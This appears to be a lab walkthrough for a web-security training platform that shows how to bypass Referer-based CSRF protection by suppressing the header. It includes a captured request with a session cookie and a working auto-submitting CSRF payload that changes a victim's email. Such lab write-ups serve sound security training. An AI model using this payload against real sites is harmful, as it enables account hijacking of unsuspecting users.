


# CSRF where Referer validation depends on header being present

## Lab Description :


## Overview :
Validation of Referer depends on header being present

Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.

In this situation, an attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the Referer header in the resulting request. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack:
```text 
<meta name="referrer" content="never">
```
## Solution :
Log in to the website using the credentials - wiener:peter

When we click update email, browser sends the following POST request
```html
POST /my-account/change-email HTTP/1.1
Host: 0ac50066041d344984249b4000c000ff.web-security-academy.net
Cookie: session=XsyAE3cbGzDpfbAo86E7Oll17UUjqgOW
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0ac50066041d344984249b4000c000ff.web-security-academy.net
Referer: https://0ac50066041d344984249b4000c000ff.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=user%40user.net
```
Notice that there is no csrf token or any Samesite cookie. Most probably it is validating the request by using Referrer Header.

Send the request to POC generator & add the following line to tell the application to ignore Referrer header.
```text 
<meta name="referrer" content="no-referrer">
```

#### Final POC -

NOTE - Include auto submit script.
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <meta name="referrer" content="no-referrer">
  <body>
  <meta name="referrer" content="no-referrer">
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ac50066041d344984249b4000c000ff.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Deliver the exploit to victim to solve the lab.



#### Visit The Next Page For The Next Level :)
